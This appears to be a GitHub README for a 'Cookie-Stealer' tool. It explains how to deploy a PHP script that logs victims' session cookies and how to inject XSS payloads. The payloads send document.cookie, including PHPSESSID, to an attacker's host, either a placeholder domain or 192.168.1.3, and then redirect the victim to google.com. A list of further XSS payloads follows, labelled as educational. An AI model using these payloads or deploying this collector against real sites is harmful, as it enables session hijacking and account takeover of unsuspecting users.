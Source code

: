 
# Cookie-Stealer

### This Basic Script Let you get "Take" The Cookie of user From **HTTP** Site...

<h4>Installation</h4>

**Linux**
```
1. git clone https://github.com/mahmoudashraf1344/Cookie-Stealer.git
2. mkdir /var/www/html/cookies
3. cp Cookie-Stealer /var/www/html/cookies
4. cd /var/www/html/Cookie-Stealer

```
##### Alert **You can do what you want i just did a Directory Called **cookies** because just for Organizing my own files..**
</br>
<h2>How To Use It</h2>

1. The File Called **cookiesteal.php** has a parameter **c** the **document.cookie** is for seaching in web app doc to get us the cookie "**PHPSESSID**"
2. Example of xss inject `<script>window.location = "http://Your Domain or Localhost/cookie/cookiesteal.php?c=" + document.cookie;</script>`
3. How to inject A **Javascript** Payload in inpute? For an Example `<script>window.location = "http://192.168.1.3/cookie/cookiesteal.php?c=" + document.cookie;</script>`
4. after injected the xss payload it will take the user to `google.com` page you can change it whatever you want the original is`header("Location: http://www.google.com/");` i can change it to facebook like this `header("Location: http://www.facebook.com/");`
5. After User or "Victim" click or submit the link the cookie session will get it in `log.txt` file...

</br>

### XSS Payload For Education:->?>

```
- <script>alert(1)</script>
- <img src=x onmouseover=confirm(1)>
- <svg onload=prompt("xss")>
- ' onerror='alert(1)'
- <script>document.body.innerHTML="Hacked By Me"</script>
```
![Screenshot from 2021-06-26 07-45-30](https://user-images.githubusercontent.com/74935238/123503467-76e0b680-d653-11eb-833c-6a36ebbcd242.jpg)
